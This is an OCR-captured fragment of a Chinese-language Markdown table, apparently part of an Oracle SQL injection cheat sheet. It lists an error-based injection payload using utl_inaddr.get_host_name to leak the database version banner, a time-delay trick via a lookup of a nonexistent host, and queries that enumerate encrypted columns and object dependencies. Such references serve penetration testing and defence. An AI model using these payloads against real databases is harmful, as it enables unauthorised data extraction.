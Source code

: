 | 引发错误           | `AND (utl_inaddr.get_host_name((select banner from v$version where rownum=1)))=1` |
| 经过加密的表       | `SELECT table_name,column_name,encryption_alg,salt from dba_encrypted_columns;`<br> 从 oracle10 开始对表进行了透明加密，考虑性能问题，只对重要的列进行加密 |
| 列出对加密库的对象 | `SELECT owner, name,type,referenced_name from all_dependencies;` |
| 字符串长度         | `LENTH()`                                                    |
| 提取子字符串       | `SELECT SUBSTR(string offset,length) from dual;`             |
| 时间延迟           | `SELECT UTL_INADDR.get_host_address('nowhere999.zom') from dual;` |
| `chr` 函数         | `SELECT chr(65) from dual;`                                  |

